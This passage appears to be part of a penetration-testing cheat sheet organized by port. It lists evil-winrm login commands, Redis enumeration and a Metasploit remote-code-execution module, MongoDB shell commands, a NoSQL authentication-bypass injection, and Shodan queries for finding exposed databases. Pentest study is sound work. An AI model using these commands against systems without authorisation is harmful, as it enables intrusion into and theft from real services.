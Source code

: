 ### on linux using evil-winrm

evil-winrm -i IP -P PORT -u USERNAME -p PASSWORD
docker run -it evil-winrm -i IP -P PORT -u USERNAME -p PASSWORD


## REDIS (port 6379)

nmap --script redis-info -sV -p 6379 IP

msfconsole auxiliary/scanner/redis/redis_server

msfconsole exploit/linux/redis/redis_replication_cmd_exec",

redis-cli -h IP -p PORT

- IP:PORT> info
- IP:PORT> client list
- IP:PORT> CONFIG GET databases
- IP:PORT> select DATABASE_INDEX
- IP:PORT> INFO keyspace
- IP:PORT> keys *
- IP:PORT> dump KEY_NAME

if we see info there are no authentication
exploit by manipulating SSH or WebShell

## IRC - Internet Realy Chat (port 6667)

<https://ubuntu.com/tutorials/irc-server#1-overview>

[Python Client using socks](./programming/python/IRC.py)

## Apache Solr (port 8983)

<https://solr.apache.org>

## FastCGI (port 9000)

## MongoDB (port 27017)

[Python Client](./programming/python/mongo_db.py)

mongo
show dbs
use DB_NAME
show collections
db.COLLECTION_NAME.find()

injection example: ($ is %24)
user=Patrick&password[%24ne]

Shodan
"mongodb server information"
"mongodb server information" -"partially enabled"
"mongodb server information" "partially enabled"
